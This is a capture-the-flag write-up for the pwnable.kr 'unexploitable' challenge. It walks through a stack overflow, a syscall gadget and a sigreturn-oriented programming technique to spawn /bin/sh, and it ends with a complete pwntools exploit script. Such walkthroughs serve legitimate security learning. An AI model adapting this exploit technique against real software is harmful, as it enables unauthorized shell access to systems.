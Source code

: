 
# unexploitable

First lets see what we are working on

```c
#include <stdio.h>
void main(){
        // no brute forcing
        sleep(3);
        // exploit me
        int buf[4];
        read(0, buf, 1295);
}
```

Seems like a simple challenge, We have a buffer of 4 integers, but we can reads 1295 bytes into it.
So lets overflow the buffer and override the return address!
but, what should we put in there?

![checksec.png](unexploitable/images/checksec.png)

Problems:
- ASLR enabled which means we cannot jump to our own buffer cause its address is unkown
- NX is enabled, which means even if we found a way to leak an address in the stack, we cant put shellcode and jump

So in this case we have to find a gadget!
I first thought maybe we can leak libc and jump to system, but after running `ROPGadget` I quickly saw:

![syscall_gadget.png](images/syscall_gadget.png)

Its a really good gadget for us, but we still cant control any register,
In order to run a shell, we need to control `rax` and  `rdi`

First i tried to figure out how can i get arbitrary syscall, which means i need to control `rax`
this part wasnt that hard, lets figure how to override the return address:

![ret_override.png](images/ret_override.png)

![finding_offset.png](images/finding_offset.png)

So we need to put 24 bytes, and the next 8 bytes will be the ret.
Now we can do something like that:

`24 bytes -> Address to main -> Address to syscall gadget`

Why are we umping to main again?
Since `rax` is the return value in 64bit calling convention,
We can re-run main, but now main return address is the syscall gadget,
in main we are calling for read, so the amount of bytes we will put in this read, will be `rax`

Now we can call any syscall we want, but we have control only over the stack and not the registers..
Sounds like a perfect time to call `Sigreturn` !

So our first payload needs to be:
`24 bytes -> Address to main -> Address to syscall gadget -> sigreturn frame`

And since we are jumping to main again, the second payload is:
`15*'a'`

The sigreturn frame looks like:
```python
frame.rax = 59
frame.rdi = ??
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall_gadget
```

We are close, we just need to figure out how can we find and address which points to `/bin/sh`
I ran: 
![memory_map.png](images/memory_map.png)
and then:
![finding_string.png](images/finding_string.png)
And i found this string in our binary:
![found_string.png](images/found_string.png)

So we can just create a symlink from `/bin/sh` to `8` and then we can put in `rdi` the address  `0x600036` 

and we won!

```python
#!/usr/bin/python3

from pwn import *
import time

context.arch = 'amd64'
binary = ELF("./unexploitable")

syscall_gadget  = 0x400560
read_addr = binary.sym['main']
size = 24

frame = SigreturnFrame(kernel='amd64')

  
frame.rax = 59
frame.rdi = 0x600036
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall_gadget

s = ssh(host="pwnable.kr", port=2222, user='unexploitable', password='guest')
context.ssh_session = s
s.set_working_directory()

unexploitable_link = SSHPath('unexploitable')
unexploitable_link.symlink_to('/home/unexploitable/unexploitable')

sh = SSHPath('8')
sh.symlink_to('/bin/sh')

p = s.process(["./unexploitable"])

payload = b'a'*size + p64(read_addr) + p64(syscall_gadget) + bytes(frame)
p.sendline(payload)
time.sleep(5)

p.sendline(b'a'*14)
p.interactive()
```

![win.png](unexploitable/images/win.png)